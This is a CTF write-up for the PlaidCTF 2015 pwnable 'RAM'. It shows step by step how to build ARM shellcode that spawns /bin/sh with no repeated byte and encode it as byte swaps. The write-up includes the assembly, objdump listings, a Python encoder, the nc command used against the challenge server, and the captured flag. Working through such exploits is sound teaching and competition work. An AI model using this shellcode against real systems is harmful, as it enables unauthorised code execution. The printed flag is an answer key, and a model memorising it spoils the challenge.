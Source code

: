 # PlaidCTF CTF 2015: RAM

**Category:** Pwnable
**Points:** 170
**Solves:** 31
**Description:**

> Hree is a ctue lttile selhlcdoe 
> [challenge](http://play.plaidctf.com/files/permute_33e624400463108ac96b45bc6158fa54.py) ([old version](http://play.plaidctf.com/files/permute_30b51ae3e1ce42cf57462073236b3a85.py)).
> 
> Server: 52.4.108.221 port 4444
> 
> 
> Team	Points	Submission
> fuzzi3	176	18 hours ago
> gallopsled	173	17 hours ago
> Tracer Tea	171	17 hours ago

## Write-up

First, let's break down what the supplied python file does. Here is the first relevant section:

```python
buf = map(chr, range(256))

while 1:
    a,b = map(ord, sys.stdin.read(2))
    if a == b:
        break
    buf[a], buf[b] = buf[b], buf[a]
```

The first line creates a buffer containing '\x00\x01\x02 ... \xFF'. The next loop reads pairs of bytes from the input, and swaps arbitrary bytes in the buffer based on the user input. Since stdin is user-controlled, this lets us create any arbitrary permutation of the bytes from 0 to 255.

The next section of the file creates an executable file, writes an ELF header, dumps the permuted buffer into the ELF file, and executes it. There's one little thing to make things interesting:

```python
elf += pack('<HHI', 2, 0x28, 1) # type=exec, machine=ARM, version=1
```

That's right, we're going to be writing ARM machine code. At this point the solution is obvious, all we have to do is come up with some ARM machine instructions that get a shell, with the additional constraint that it has to be some permutation on the bytes from 0 to 255. Or, equivalently, we need ARM shellcode that never uses the same byte twice.

To solve this problem you'll need to grab an ARM toolchain and a userspace emulator to run the code locally.

```
sudo apt-get install qemu-user libc6-armel-cross libc6-dev-armel-cross binutils-arm-linux-gnueabi gcc-arm-linux-gnueabi
```

Let's start with some basic code to exec a shell on ARM, and then see what modifications we need to make in order to do it without ever reusing the same byte.

```
.text
.globl _start
_start:
    mov %r7, $11
    ldr %r0, =msg
    mov %r1, $0
    mov %r2, $0
    svc 0
msg:
    .asciz "/bin/sh"
```

Build and test, then objdump the result to see what our machine code looks like.

```
arm-linux-gnueabi-gcc -o arm.exe -nostartfiles -static arm.S
qemu-arm arm.exe
$ <we have a shell> exit
arm-linux-gnueabi-objdump -d arm.exe
```
```
00008098 <_start>:
    8098:	e3a0700b 	mov	r7, #11
    809c:	e59f0010 	ldr	r0, [pc, #16]	; 80b4 <msg+0x8>
    80a0:	e3a01000 	mov	r1, #0
    80a4:	e3a02000 	mov	r2, #0
    80a8:	ef000000 	svc	0x00000000

000080ac <msg>:
    80ac:	6e69622f 	.word	0x6e69622f
    80b0:	0068732f 	.word	0x0068732f
    80b4:	000080ac 	.word	0x000080ac
```

The most obviously reused byte in there is 0, and we can immediately see that there is going to be a problem with the `svc` instruction, which has 3 of them. But this is all assuming we use the EABI; searching around the internet shows that there is an older, obsolete syscall API, which puts the syscall number in the svc instruction. The older ABI also does not use r7, so we can get rid of the first instruction. We can also replace `mov` instructions with math instructions that do the same thing, and a bit of experimentation showed that r2 was already 0, and we don't need to overwrite it.

```
00008098 <_start>:
    8098:	e59f000c 	ldr	r0, [pc, #12]	; 80ac <msg+0x8>
    809c:	e0231003 	eor	r1, r3, r3
    80a0:	ef90000b 	svc	0x0090000b

000080a4 <msg>:
    80a4:	6e69622f 	.word	0x6e69622f
    80a8:	0068732f 	.word	0x0068732f
    80ac:	000080a4 	.word	0x000080a4

```

The next major obstacle is the '/' in '/bin/sh'. We need two slashes in the filename, which means we can't send the exact filename bytes as part of the input. The code also cannot self-modify, which means we have to transfer the filename to the stack somehow. We also need to generate the trailing 0 byte because we already used one in the `svc` instruction.

Here is a cut at copying '/bin/sh' to the stack:

```
00008098 <_start>:
    8098:	e0231003 	eor	r1, r3, r3
    809c:	e28f5018 	add	r5, pc, #24
    80a0:	e8150180 	ldmda	r5, {r7, r8}
    80a4:	e24d0008 	sub	r0, sp, #8
    80a8:	e2888001 	add	r8, r8, #1
    80ac:	e9200180 	stmdb	r0!, {r7, r8}
    80b0:	e5c01007 	strb	r1, [r0, #7]
    80b4:	ef90000b 	svc	0x0090000b

000080b8 <msg>:
    80b8:	6e69622f 	.word	0x6e69622f
    80bc:	7968732e 	.word	0x7968732e

```
That introduced another zero byte, which we can weed out by simply offsetting further up the stack. We can also eliminate duplication between the low bytes of the `ldmda` and the `stmdb` by using different registers and loading/storing dummy registers at the end.

The next thing to deal with is the common `e2` prefix on many of the instructions. That instruction byte contains a condition code field, which allows for conditional execution. What we can do is choose condition codes that are always true so that the instructions get executed. If we change the `eor` to an `eors`, then the 'Z' flag will always be set, so the `le` and `ls` conditions will always be true.

The last thing is the `10` in the `strb` instruction. The 1 comes from r1, which just needs to be any register containing a zero. We can use r2 or r3 instead, because they are initialized to zero by the loader.

```
00008098 <_start>:
    8098:	e0331003 	eors	r1, r3, r3
    809c:	928f501c 	addls	r5, pc, #28
    80a0:	e8151270 	ldmda	r5, {r4, r5, r6, r9, ip}
    80a4:	d24d0f41 	suble	r0, sp, #260	; 0x104
    80a8:	e2898001 	add	r8, r9, #1
    80ac:	e9204340 	stmdb	r0!, {r6, r8, r9, lr}
    80b0:	e5c03007 	strb	r3, [r0, #7]
    80b4:	ef90000b 	svc	0x0090000b

000080b8 <msg>:
    80b8:	6e69622f 	.word	0x6e69622f
    80bc:	7968732e 	.word	0x7968732e
```

Now we have code to get a shell, and it never uses the same byte twice. To turn this into a sequence of swaps that will generate the correct permutation, we can use a small python script:

```python
buf = map(chr, range(256))

f = open("arm.exe", "r")
binary = f.read()[0x98:0xc0]  # use a hex dump of the ELF file to find the offset of the code
f.close()

f = open("permutation.bin", "w")

for i in range(len(binary)):
  ch = binary[i]
  found = False
  for swap in range(i, 256):
    if buf[swap] == ch:
      found = True
      if i != swap:
        print "swapping", i, swap, ord(ch), hex(ord(ch))
        f.write(chr(i))
        f.write(chr(swap))
        buf[i], buf[swap] = buf[swap], buf[i]
  if not found:
    print "could not find character", ord(ch), hex(ord(ch))
    exit(1)

f.write(chr(0))
f.write(chr(0))
f.close()
```

Now we have a file containing the correct permutation. Send it to the server, but keep standard input connected to the terminal, so we can run commands in the shell we created.

```
$ cat permutation.bin - | nc 52.4.108.221 4444
ls
flag.txt
permute.py
submit
cat flag.txt
flag{shellcode_with_the_colors_of_the_rainbow_db43044f}
```

## Other write-ups and resources

* none yet
